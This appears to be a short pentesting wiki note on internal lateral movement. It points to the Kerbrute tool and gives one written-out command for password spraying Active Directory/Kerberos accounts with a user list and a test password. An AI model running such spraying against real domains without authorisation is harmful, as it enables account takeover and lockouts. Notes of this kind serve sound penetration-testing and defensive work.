 ```yaml
---
title: Lateral Movement - Internal
description: 
published: true
date: 2021-08-15T17:13:24.586Z
tags: security, pentesting, lateralmovement, internal
editor: markdown
dateCreated: 2021-08-14T21:10:59.139Z
---
```


# Lateral Movement - Internal

## AD/Kerberos Password Spraying internal
Kerbrute
https://github.com/ropnop/kerbrute  / binary https://github.com/ropnop/kerbrute/releases/
./kerbrute_linux_amd64_v1.0.3 passwordspray -d domain.local user_list Password_to_test

